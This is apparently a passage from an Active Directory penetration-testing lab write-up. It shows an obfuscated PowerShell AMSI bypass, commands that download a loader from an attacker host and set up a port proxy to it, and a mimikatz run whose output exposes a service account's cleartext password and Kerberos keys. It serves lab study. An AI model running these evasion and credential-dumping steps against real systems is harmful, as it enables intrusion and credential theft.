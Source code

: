 ```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

``:
```

```

- **Extract the Encryption Key Hash (from the Target Machine 1 `dcorp-mgmt`) of the Target Domain Administrator**
???

![HFS - Loader.exe](learning_objective_07_hfs_loader.png)

`iwr http://172.16.100.1/Loader.exe -OutFile C:\Users\Public\Loader.exe`

`netsh interface portproxy add v4tov4 listenport=1234 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.1`

![HFS -SafetyKatz.exe](learning_objective_07_hfs_safetykatz.png)

`C:\Users\Public\Loader.exe -path http://127.0.0.1:1234/SafetyKatz.exe sekurlsa::evasive-keys exit`:
```
[SNIP]

mimikatz(commandline) # sekurlsa::evasive-keys📌

[SNIP]

Authentication Id : 0 ; 93339 (00000000:00016c9b)
Session           : Service from 0
User Name         : techservice👤
Domain            : TECH
Logon Server      : TECH-DC
Logon Time        : 3/11/2025 6:54:59 AM
SID               : S-1-5-21-1325336202-3661212667-302732393-1109

         * Username : techservice
         * Domain   : TECH.FINANCE.CORP
         * Password : Agent for Server1!🔑
         * Key List :
           aes256_hmac       7f6825f607e9474bcd6b9c684dc70f7c1ca977ade7bfd2ad152fd54968349deb🔑
           aes128_hmac       1e88fc138cbb482e14a836ab47e22816
           rc4_hmac_nt       ac25af07540962863d18c6f924ee8ff3
           rc4_hmac_old      ac25af07540962863d18c6f924ee8ff3
           rc4_md4           ac25af07540962863d18c6f924ee8ff3
           rc4_hmac_nt_exp   ac25af07540962863d18c6f924ee8ff3
           rc4_hmac_old_exp  ac25af07540962863d18c6f924ee8ff3

[SNIP]

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : MGMTSRV$👤
Domain            : TECH
Logon Server      : (null)
Logon Time        : 3/11/2025 5:54:34 AM
SID               : S-1-5-18

```